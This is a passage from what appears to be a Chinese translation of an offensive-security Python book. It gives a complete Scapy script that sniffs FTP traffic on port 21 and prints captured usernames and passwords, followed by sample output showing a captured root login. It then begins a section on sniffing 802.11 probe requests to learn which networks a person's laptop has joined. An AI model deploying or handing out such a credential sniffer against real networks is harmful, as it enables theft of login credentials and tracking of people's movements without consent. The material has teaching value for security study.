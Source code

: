 将所有的脚本放在一起，我们只嗅探 21 端口的 TCP 流量。我们还添加一些选项来选择嗅探器使用的网络适配器。运行这个脚本允许我们拦截 FTP 登陆凭证。

```py
# coding=UTF-8
import optparse
from scapy.all import *

def ftpSniff(pkt):
    dest = pkt.getlayer(IP).dst
    raw = pkt.sprintf('%Raw.load%')
    user = re.findall('(?i)USER (.*)', raw)
    pswd = re.findall('(?i)PASS (.*)', raw)
    if user:
        print('[*] Detected FTP Login to ' + str(dest))
        print('[+] User account: ' + str(user[0]))
    elif pswd:
        print('[+] Password: ' + str(pswd[0]))

def main():
    parser = optparse.OptionParser('usage %prog -i<interface>')
    parser.add_option('-i', dest='interface', type='string', help='specify interface to listen on')
    (options, args) = parser.parse_args()
    if options.interface == None:
        print parser.usage
        exit(0)
    else:
        conf.iface = options.interface
        try:
            sniff(filter='tcp port 21', prn=ftpSniff)
        except KeyboardInterrupt:
            exit(0)
if __name__ == '__main__':
    main() 
```

运行我们的脚本，我们检测到一个登陆的 FTP 服务器，并显示用户的凭证和登陆的服务器。我们现在有一个少于 30 行 Python 代码的 FTP 凭证嗅探器。当用户的证书可以为我们提供对网络的访问，在下一节中，我们将使用无线监听探测用户的历史记录。

```py
attacker:∼# python ftp-sniff.py -i mon0
[*] Detected FTP Login to 192.168.211.1
[+] User account: root\r\n
[+] Password: secret\r\n 
```

# 你的笔记本去过哪？Python 解答

几年前我教了一个无无线安全的课程，为了让学生听讲我关闭了房间里的无线网络，也是为了防止他们攻击任何的受害者。我以无线网络扫描的演示作为课程的开始，发现了一些有趣的东西，在房间里探测到几个客户端试图连接的首选网络。一个特别的学生刚从洛杉矶回来，他的电脑探测到 LAX_Wireless 和 Hooters_WiFi ，我开了一个玩笑，问学生在 Hooters Restaurant 的停留是否满意。他很惊讶，我怎么知道这些信息？监听 802.11 探测请求!

为了提供一个无缝的连接，你的电脑和手机经常保持一个首选的网络列表，其中包括你先前成功连接过的无线网络名称。当你的电脑开机或者网络断开后，你的电脑经常发送 802.11 探测请求搜索列表中的每一个网络名称。 让我们快速的编写一个检测 802.11 网络请求的工具。在这个例子中，我们称呼我们处理数据包的函数为`sniffProbe()`。注意，我们将整理出 802.11 探测请求通过检测数据包是否`haslayer(Dot11ProbeReq)`。如果请求包含新的网络名称我们将打印他们在屏幕上。
